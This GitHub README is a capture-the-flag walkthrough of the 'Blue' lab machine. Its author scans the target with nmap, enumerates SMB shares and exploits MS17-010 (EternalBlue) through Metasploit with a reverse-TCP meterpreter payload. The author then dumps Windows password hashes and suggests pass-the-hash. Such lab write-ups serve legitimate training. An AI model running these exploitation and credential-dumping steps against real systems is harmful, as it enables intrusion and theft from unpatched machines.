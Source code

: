 # New-Capstone-Lab-Blue-Machine-

<h2>**IP Address provided: 10.0.2.5**</h2>

This repository provides a comprehensive guide to the Blue Machine which is a Capture the Flag (CTF) challenge designed to test your skills in network scanning, web application testing, password cracking, privilege escalation, and system exploitation. This machine provides an opportunity to utilise a variety of tools and techniques commonly used in real-world penetration testing. You will encounter a combination of web-based vulnerabilities, system misconfigurations, and network-related challenges.

### Features:
- NMAP (Network Mapper)
NMAP is used for network scanning, identifying live hosts, and enumerating open ports/services on the target machine. Expect to perform full-service enumeration and version detection to discover potential vulnerabilities.
- Hashcat
Hashcat is employed to crack passwords or hash values found during the challenge, such as those retrieved from configuration files or databases.
- Dirb/Dirbuster/FFUF
These tools will be used for web directory and file brute-forcing to discover hidden resources or services within the web application. Expect to uncover directories with potentially sensitive data or misconfigurations.
- PHP Reverse Shell
The PHP reverse shell allows for remote code execution. You will use this shell to establish a reverse connection back to your local machine after exploiting a vulnerable web application or misconfiguration.
- Linpeas (Linux Privilege Escalation Enumeration)
Linpeas will help you scan for potential privilege escalation vectors once you've gained initial access to the system. It will identify misconfigurations, setuid binaries, and other weaknesses that can be leveraged for escalating privileges.
- Pspy64
Pspy64 is used to monitor the processes running on the target system in real time. It can help identify scheduled tasks, cron jobs, or other processes that might be running with elevated privileges, making it a valuable tool for post-exploitation.
- Bash Reverse Shell One-Liner
The bash reverse shell one-liner will be useful when you need to quickly establish a reverse shell connection, bypassing firewalls and security measures.
- Netcap (Network Capture)
Netcap will capture network traffic, allowing you to analyse packets, sniff traffic, and uncover hidden information such as unencrypted credentials, flags, or other clues that might assist you in further exploiting the system.


### Prerequisites:
Before starting the Academy Machine challenge, it is recommended to have basic knowledge and hands-on experience with the following tools and concepts:

- Networking Fundamentals: Knowledge of TCP/IP, ports, and protocols.
- NMAP: For network discovery and service enumeration.
- Hashcat: For password cracking and hash analysis.
- Dirb/Dirbuster/FFUF: Web directory and file brute-forcing tools.
- PHP Reverse Shell: Using PHP scripts to initiate reverse shells for exploitation.
- Linpeas: Linux privilege escalation enumeration script.
- Pspy64: To monitor processes running on the machine.
- Bash Reverse Shell One-Liner: Executing reverse shell using bash scripting.
- Netcap: For monitoring and capturing network traffic, analysing packets for clues.

<h2>Environments Used </h2>

- <b>Linux</b>
- <b>Windows</b>

<h2>Walk-through:</h2>

Started out by using Nmap to dearch for open ports on the target 10.0.2.5

nmap -A -p- -T4 10.0.2.5

![image](https://github.com/user-attachments/assets/801f2eaf-bd8b-466e-aa1c-920ccb0aa0c0)

I can see that port 139 tcp netbios-ssn Microsoft Windows netbios-ssn is open  
I can also see that port 445 tcp Windows 7 Ultimate 7601 Service Pack 1 Microsoft-ds (workgroup: WORKGROUP)

I will research the exploits for both of these.

**Port 139**  
NetBIOS stands for Network Basic Input Output System. It is a software protocol that allows applications, PCs, and Desktops on a local area network (LAN) to communicate with network hardware and to transmit data across the network. Software applications that run on a NetBIOS network locate and identify each other via their NetBIOS names. A NetBIOS name is up to 16 characters long and usually, separate from the computer name. Two applications start a NetBIOS session when one (the client) sends a command to “call” another client (the server) over TCP Port 139

**Port 445**  
While Port 139 is known technically as ‘NBT over IP’, Port 445 is ‘SMB over IP’. SMB stands for ‘Server Message Blocks’. Server Message Block in modern language is also known as Common Internet File System. The system operates as an application-layer network protocol primarily used for offering shared access to files, printers, serial ports, and other sorts of communications between nodes on a network.  
For instance, on Windows, SMB can run directly over TCP/IP without the need for NetBIOS over TCP/IP. This will use, as you point out, port 445. On other systems, you’ll find services and applications using port 139. This means that SMB is running with NetBIOS over TCP/IP**.**

I decided to attempt port 445 first as this was the one that stood out the most to me.

I listed the SMB shares using smbclient -L 10.0.2.5 and was asked for a password, i hit enter and ws able to view the share names.

I tried accessing admin with no password.  
smbclient \\10.0.2.5\ADMIN$  
Password for [WORKGROUP\kali]:  
tree connect failed: NT_STATUS_ACCESS_DENIED

I tried accessing C$ with no password.  
smbclient \\10.0.2.5\C$  
Password for [WORKGROUP\kali]:  
tree connect failed: NT_STATUS_ACCESS_DENIED

I was able to access IPC$ with no password.  
smbclient \\10.0.2.5\IPC$  
Password for [WORKGROUP\kali]:  
Try "help" to get a list of possible commands.

i tried ls  
smb: > ls  
NT_STATUS_INVALID_PARAMETER listing *

Further information gathering found this port 445 has an exploit called eternal blue.

![image](https://github.com/user-attachments/assets/6e6eb516-bddf-47bd-92a7-74d113102505)

Using Metasploit i searched for eternal blue and a few come up, i decided to use an auxiliary to start off with as this will be a check before launching an attack.

Unfortunately my windows lab crashed so i received connection time out.

Restarted the windows lab and retested.

msfconsole reloaded and ran search for eternal blue

![image](https://github.com/user-attachments/assets/2383d7df-56ef-40d7-acfb-d13f890170ec)

used no 1 (use 1)  
options  
set RHOSTS to IP Address of the machine scanning.  
Run the scan against the machine.

[+] 10.0.2.5:445 - Host is likely VULNERABLE to MS17-010! - Windows 7 Ultimate 7601 Service Pack 1 x64 (64-bit)  
[*] 10.0.2.5:445 - Scanned 1 of 1 hosts (100% complete)  
[*] Auxiliary module execution completed

Now we have confirmed that the system is vulnerable to eternal blue we look at what exploits are available.  
search eternal blue to bring up the menu again.  
no 3 looks promising so we will use this one as the other says win8 and we know its a windows 7 machine.

use 3  
options  
set rhosts to IP Address  
this module has a check feature so lets check it.

Type check and enter  
msf6 exploit(windows/smb/ms17_010_eternalblue) > check

[*] 10.0.2.5:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check  
[+] 10.0.2.5:445 - Host is likely VULNERABLE to MS17-010! - Windows 7 Ultimate 7601 Service Pack 1 x64 (64-bit)  
[*] 10.0.2.5:445 - Scanned 1 of 1 hosts (100% complete)  
[+] 10.0.2.5:445 - The target is vulnerable.

This shows the same as the scanner so we know this should work.

So we now need to set a payload.

We know from the previous scans that this machine is 64 bit and sometimes payloads are set to 32bit so we need to be on the safe side and set the payload to 64bit.  
we are also going to use a meterpreter shell as we want a nice interface and we are going to set a reverse-tcp

Type in options.  
Set LHOST to eth0 or your IP Address.

RUN this

![image](https://github.com/user-attachments/assets/50d7aa97-413b-4d8f-a12a-e72c4bcc4642)

set payload windows/x64/meterpreter/reverse_tcp

Run  
This will run through trying to access, sometimes it wont happen the first time so give another go. Mine worked first time which was great.

Sorry, my screenshot wouldnt work so i took a picture of the screen.

![image](https://github.com/user-attachments/assets/459ae81b-4061-4093-a6d7-d429950a640d)

Eternal Blue has been out for sometime now but is still successful in infiltrating machines that have not been updated or cant be updated.

Type in Hashdump.

meterpreter > hashdump  
Administrator:500:aad3b435b51404eeaad3b435b51404ee:58f5081696f366cdc72491a2c4996bd5:::  
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::  
HomeGroupUser$:1002:aad3b435b51404eeaad3b435b51404ee:f580a1940b1f6759fbdd9f5c482ccdbb:::  
user:1000:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::

Now we have the hashes for the Administrator, Guest, Home Group and User:1000.

We can use this to try and crack it, we can use pass the hash etc.




